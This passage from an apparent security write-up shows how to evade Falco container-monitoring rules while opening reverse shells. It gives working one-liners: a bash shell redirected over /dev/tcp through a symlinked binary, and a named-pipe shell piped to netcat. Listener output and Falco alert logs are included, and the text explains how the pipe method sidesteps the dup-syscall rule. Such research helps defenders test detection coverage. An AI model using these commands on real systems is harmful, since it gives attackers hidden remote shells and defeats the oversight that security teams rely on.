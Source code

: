 Getting rid of the first event is easy with the symlink to bash:
```
[Container]
$ docker run --rm -it debian:10.2 bash
root@3a03766368a0:/# which bash
/bin/bash
root@3a03766368a0:/# ln -s /bin/bash /tmp/gbash
root@3a03766368a0:/# /tmp/gbash -c "/tmp/gbash -i >& /dev/tcp/172.17.0.1/443 0>&1"
-----
[Host]
$ sudo nc -nlvp 443
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:48048.
root@3a03766368a0:/#
-----
[Falco]
14:44:37.439154946: Warning Redirect stdout/stdin to network connection (user=root user_loginuid=-1 k8s.ns=<NA> k8s.pod=<NA> container=3a03766368a0 process=gbash parent=gbash cmdline=gbash -c /tmp/gbash -i >& /dev/tcp/172.17.0.1/443 0>&1 terminal=34816 container_id=3a03766368a0 image=debian fd.name=172.17.0.2:48048->172.17.0.1:443 fd.num=1 fd.type=ipv4 fd.sip=172.17.0.1) k8s.ns=<NA> k8s.pod=<NA> container=3a03766368a0
14:44:37.439157224: Warning Redirect stdout/stdin to network connection (user=root user_loginuid=-1 k8s.ns=<NA> k8s.pod=<NA> container=3a03766368a0 process=gbash parent=gbash cmdline=gbash -c /tmp/gbash -i >& /dev/tcp/172.17.0.1/443 0>&1 terminal=34816 container_id=3a03766368a0 image=debian fd.name=172.17.0.2:48048->172.17.0.1:443 fd.num=1 fd.type=ipv4 fd.sip=172.17.0.1) k8s.ns=<NA> k8s.pod=<NA> container=3a03766368a0
```
Still, we have to deal two(?) spurious events. Taking a closer look at rule **Redirect STDOUT/STDIN to Network Connection in Container**, we don't see dependencies on _proc.name_ or _fd.name_ and no easy bypass apparent. The rule intercepts dup syscall that duplicates a file descriptor, in this case any of the stdin / stdout / stderr triad. The first thought is swapping dup call with one of the sister calls - dup2 or dup3 - that appear to have very similar functionality according to Linux man pages[^1]. However, that would mean duplicating bash functionality or somehow recompiling it with a different syscall.

Instead, we can abandon dup altogether and find a new way to initiate a reverse shell. What about payloads that redirect shell to netcat through pipe creation?
```
[Container]
docker run --rm -it sshayb/fuber:latest
root@eabe8cffc8c8:/tmp# mknod /tmp/backpipe p; /bin/sh 0</tmp/backpipe | /bin/nc 172.17.0.1 443 1>/tmp/backpipe
-----
[Host]
sudo nc -nlvp 443
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:43588.
hostname
eabe8cffc8c8
-----
[Falco]
12:47:37.884716967: Notice Network tool launched in container (user=root user_loginuid=-1 command=nc 172.17.0.1 443 parent_process=gbash container_id=eabe8cffc8c8 container_name=vigorous_hawking image=sshayb/fuber:latest) k8s.ns=<NA> k8s.pod=<NA> container=eabe8cffc8c8 k8s.ns=<NA> k8s.pod=<NA> container=eabe8cffc8c8
```
Great. This does not trigger "Redirect stdout/stdin" rule, and besides, getting rid of the "Network tool launched" is easy with the previous bypass techniques.


[^1]: https://man7.org/linux/man-pages/man2/dup2.2.html
[^2]: https://hub.docker.com/repository/docker/sshayb/fuber
[^3]: https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py
[^4]: https://sysdig.com/blog/cve-2021-3156-sudo-falco/
[^5]: https://falco.org/docs/rules/supported-fields/
[^6]: https://braiins.com/stratum-v2
[^7]: https://github.com/draios/sysdig/pull/655/commits/209888d7f37c4357b164ca12248a38bac9de2e4b
[^8]: https://www.youtube.com/watch?v=rBqBrYESryY
[^9]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS